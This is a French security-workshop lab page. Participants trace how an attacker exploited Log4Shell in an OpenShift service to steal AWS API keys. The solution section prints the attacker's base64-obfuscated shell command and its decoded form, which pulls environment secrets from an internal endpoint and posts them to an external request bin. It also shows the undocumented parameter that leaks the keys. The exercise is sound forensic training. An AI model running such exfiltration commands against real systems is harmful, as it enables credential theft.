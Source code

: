 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


## Contexte

Nous sommes le 19 décembre 2021 (oui, vous avez bien lu, deux ans plus tôt, jour pour jour).

L'équipe cloud AWS vous averti qu'une clé d'API AWS a été compromise et a servi à déployer des logiciels de crypto mining.
Fort heureusement, votre société interdit la réutilisation des clés d'API pour plusieurs usages : vous êtes donc certain de l'origine de cette fuite de donnée : c'est l'application **visa-processor** qui exploite cette clé d'API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | sort | grep ^A  
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note** : les clés d'API AWS ont été caviardées dans le lab pour éviter une crise cardiaque inutile aux équipes sécurité **Red Hat**. Elles ont été remplacées par deux messages humoristiques. :)

Dans le même temps, l'équipe réseau vous averti de la présence d'un flux sortant inhabituel à destination de serveurs eux aussi hébergés sur AWS.

```
$ dig +short public.requestbin.com   
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName 
OrgTechName:   Amazon EC2 Network Operations
```

## Objectif de l'exercice

Votre mission, si vous l'acceptez, est d'investiguer l'environnement du Lab à la recherche du chemin parcouru par l'attaquant pour perpétrer cette exfiltration de données.
L'objectif est atteint quand vous trouvez l'URL du **Request Bin** utilisé par l'attaquant pour exfiltrer la clé d'API.

![Request Bin montrant la clé d'API AWS exfiltrée](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

## A vous de jouer !

Indices :

- Commencez par la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`
- Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**. Cliquez sur les déploiements **information-service** et **back-office** et comparez leur flux. Lequel vous semble le plus suspicieux ?
- Retournez dans la section **Violations** et filtrez la vue avec le nom du déploiement qui vous semble le plus suspicieux.

## Solution

{{%expand "Solution" %}}

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

On note bien la présence de CVE mais rien de très suspicieux.

Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**.

Cliquez sur le déploiement **back-office**.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

Les flux observés semblent légitimes.

Cliquez sur le déploiement **information-service**.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observez le flux entrant depuis le router OpenShift et le flux sortant vers AWS.
Notez également que le déploiement **information-service** communique avec le déploiement **visa-processor**.

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Notez la présence de la vulnérabilité **Log4Shell** ainsi que d'un comportement suspect au runtime: **Shell Spawned by Java Application**.

Cliquez sur la violation **Shell spawned by Java Application**.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observez la commande exécutée :

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Décodez le contenu encodé en base64 (utilisez la commande "base64 -d") :

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

La première commande **curl** exploite un bug de l'application pour récupérer la clé d'API AWS.

En temps normal, le composant **visa-processor** retourne la valeur de sa variable d'environnement **APP_ID** :

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

Mais en passant un argument supplémentaire non documenté, on peux récupérer les variables d'environnement qui suivent (par ordre alphabétique) :

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

La seconde commande **curl** exfiltre les données via le service **Request Bin**.
Connectez vous à [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) et confirmez que les données exfiltrées sont bien présentes.

{{% /expand%}}
